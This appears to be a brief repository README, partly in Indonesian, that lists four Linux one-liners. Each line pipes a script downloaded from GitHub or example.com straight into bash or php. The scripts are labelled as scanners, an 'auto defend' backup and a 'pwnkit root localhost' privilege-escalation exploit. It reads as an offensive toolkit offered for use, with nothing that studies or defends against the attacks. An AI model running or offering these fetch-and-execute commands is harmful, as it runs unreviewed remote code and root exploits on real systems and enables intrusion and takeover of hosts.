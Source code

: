 # fungsiini Command line linux
1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s https://example.com/script.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash
